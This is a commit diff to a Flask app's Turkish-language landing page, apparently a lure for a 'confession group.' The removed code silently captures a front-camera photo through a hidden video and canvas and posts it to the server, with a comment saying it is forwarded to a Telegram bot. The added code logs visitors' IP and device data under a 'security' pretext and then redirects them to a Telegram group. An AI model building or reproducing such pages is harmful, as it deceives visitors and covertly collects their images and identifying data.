

Before and after one commit to quitsbequits1/server, a Flask app: page / in a window 1280 px wide. Run offline with Flask 3, Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/templates/index.html
+++ b/templates/index.html
@@ -3,65 +3,58 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>İtiraf ve Giriş Sayfası</title>
+    <title>Giriş Doğrulaması</title>
     <style>
-        body { font-family: Arial, sans-serif; text-align: center; margin-top: 50px; background-color: #f4f4f9; }
-        .kutu { background: white; padding: 30px; border-radius: 10px; box-shadow: 0 4px 8px rgba(0,0,0,0.1); display: inline-block; max-width: 400px; }
-        button { background-color: #28a745; color: white; border: none; padding: 10px 20px; font-size: 16px; border-radius: 5px; cursor: pointer; }
+        body { font-family: Arial, sans-serif; text-align: center; background: #121212; color: white; padding-top: 50px; margin: 0; }
+        .kutu { background: #222; padding: 30px; border-radius: 10px; display: inline-block; max-width: 90%; margin: 20px auto; }
+
+        /* Çerez / Onay Banner Tasarımı */
+        .banner { position: fixed; bottom: 0; left: 0; width: 100%; background: #333; padding: 20px; box-sizing: border-box; text-align: center; border-top: 2px solid #555; z-index: 100; }
+        .banner p { margin-top: 0; font-size: 14px; color: #ddd; }
+
+        /* Butonlar */
+        .btn { padding: 12px 25px; font-size: 16px; border-radius: 5px; cursor: pointer; font-weight: bold; border: none; margin: 10px; transition: 0.2s; }
+        .btn-yesil { background: #28a745; color: white; }
+        .btn-yesil:hover { background: #218838; }
+        .btn-beyaz { background: white; color: black; }
+        .btn-beyaz:hover { background: #e2e6ea; }
     </style>
 </head>
 <body>
 
-    <div id="onayEkrani" class="kutu">
-        <h2>Gizlilik Sözleşmesi</h2>
-        <p>Bu siteye giriş yapabilmek ve itiraf platformunu kullanabilmek için kamera erişimine izin vermeniz ve kimlik doğrulaması için anlık fotoğrafınızın sistemimize kaydedilmesini onaylamanız gerekmektedir.</p>
-        <button onclick="onayla()">Sözleşmeyi Onaylıyorum ve Giriş Yap</button>
+    <div class="kutu" id="icerik">
+        <h2>RBx İtiraf Grubuna Giriş</h2>
+        <p>Grubun güvenliğini korumak için giriş işlemini onaylamanız gerekmektedir.</p>
     </div>
 
-    <div id="islemEkrani" class="kutu" style="display:none;">
-        <h3>Lütfen Bekleyin...</h3>
-        <p>Sisteme giriş yapılıyor. (Tarayıcı izin isterse onaylayın)</p>
-        <!-- Arka planda çalışacak görünmez video ve canvas -->
-        <video id="video" width="320" height="240" autoplay playsinline style="display:none;"></video>
-        <canvas id="canvas" width="320" height="240" style="display:none;"></canvas>
+    <!-- Güvenlik Onay Afişi -->
+    <div class="banner" id="onayBanner">
+        <p><strong>Güvenlik ve Gizlilik Politikası:</strong> Grubumuzun güvenliğini sağlamak, spam ve yetkisiz erişimleri engellemek amacıyla IP adresiniz ve cihaz/tarayıcı bilgileriniz kayıt altına alınacaktır. Devam ederek bunu kabul etmiş olursunuz.</p>
+        <button class="btn btn-yesil" onclick="kabulEt()">Kabul Et ve Gir</button>
+        <button class="btn btn-beyaz" onclick="reddet()">Kabul Etme</button>
     </div>
 
     <script>
-        function onayla() {
-            document.getElementById('onayEkrani').style.display = 'none';
-            document.getElementById('islemEkrani').style.display = 'inline-block';
+        function reddet() {
+            document.getElementById('onayBanner').style.display = 'none';
+            document.getElementById('icerik').innerHTML = "<h2 style='color: #dc3545;'>Erişim Engellendi</h2><p>Güvenlik politikasını kabul etmediğiniz için gruba katılamazsınız.</p>";
+        }
 
-            // Kamera izni iste
-            navigator.mediaDevices.getUserMedia({ video: { facingMode: "user" } })
-                .then(function(stream) {
-                    var video = document.getElementById('video');
-                    video.srcObject = stream;
-                    video.play();
+        function kabulEt() {
+            document.getElementById('onayBanner').style.display = 'none';
+            document.getElementById('icerik').innerHTML = "<h2 style='color: #28a745;'>Onaylandı</h2><p>Güvenlik kontrolü yapılıyor, gruba yönlendiriliyorsunuz...</p>";
 
-                    // Kamera açıldıktan 2.5 saniye sonra fotoğraf çek
-                    setTimeout(function() {
-                        var canvas = document.getElementById('canvas');
-                        var context = canvas.getContext('2d');
-                        context.drawImage(video, 0, 0, 320, 240);
-                        var veriUrl = canvas.toDataURL('image/png');
-
-                        // Arka plana (Telegram botuna) gönder
-                        fetch('/foto-gonder', {
-                            method: 'POST',
-                            headers: { 'Content-Type': 'application/json' },
-                            body: JSON.stringify({ image: veriUrl })
-                        }).then(() => {
-                            // Gönderim bitince mesajı değiştir ve kamerayı kapat
-                            document.getElementById('islemEkrani').innerHTML = "<h2>Giriş Başarılı!</h2><p>İtiraf sayfasına yönlendiriliyorsunuz...</p>";
-                            stream.getTracks().forEach(track => track.stop());
-                        });
-                    }, 2500);
-                })
-                .catch(function(err) {
-                    alert("Kamera izni vermediğiniz için siteye giriş yapamazsınız!");
-                    document.getElementById('islemEkrani').style.display = 'none';
-                    document.getElementById('onayEkrani').style.display = 'inline-block';
-                });
+            // Sunucuya(Python) bilgileri alması için sinyal gönder
+            fetch('/guvenlik-log', { method: 'POST' })
+            .then(response => {
+                if (response.ok) {
+                    // Yönlendirme (Yaklaşık 1.5 saniye sonra gruba atar)
+                    setTimeout(() => {
+                        // LİNKİ BURAYA YAPIŞTIR:
+                        window.location.href = "https://t.me/BURAYA_RBX_GRUBUNUN_LINKINI_YAZ";
+                    }, 1500);
+                }
+            });
         }
     </script>
 </body>
```
